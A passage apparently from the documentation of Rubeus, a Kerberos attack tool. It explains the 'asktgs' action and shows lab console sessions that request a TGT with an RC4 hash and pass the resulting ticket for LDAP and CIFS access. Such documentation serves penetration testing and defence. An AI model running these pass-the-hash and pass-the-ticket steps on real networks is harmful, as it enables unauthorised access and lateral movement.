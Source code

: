           doIFFjCCBRKgAwIB...(snip)...

    [*] Action: Import Ticket
    [*] Target LUID: 0x5f3b00
    [+] Ticket successfully imported!

**Note that the /luid and /createnetonly parameters require elevation!**


## asktgs

The **asktgs** action will build/parse a raw TGS-REQ/TGS-REP service ticket request using the specified TGT /ticket:X supplied. This value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk. If a /dc is not specified, the computer's current domain controller is extracted and used as the destination for the request traffic. The /ptt flag will "pass-the-ticket" and apply the resulting service ticket to the current logon session. One or more /service:X SPNs must be specified, comma separated.

    C:\Temp\tickets>Rubeus.exe asktgt /user:harmj0y /rc4:2b576acbe6bcfda7294d6bd18041b8fe

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\harmj0y'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 232 bytes
    [*] Received 1405 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

          doIFFjCCBRKgAwIBBa...(snip)...

    C:\Temp\tickets>Rubeus.exe asktgs /ticket:doIFFjCCBRKgAwIBBa...(snip...)== /service:LDAP/primary.testlab.local,cifs/primary.testlab.local /ptt

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
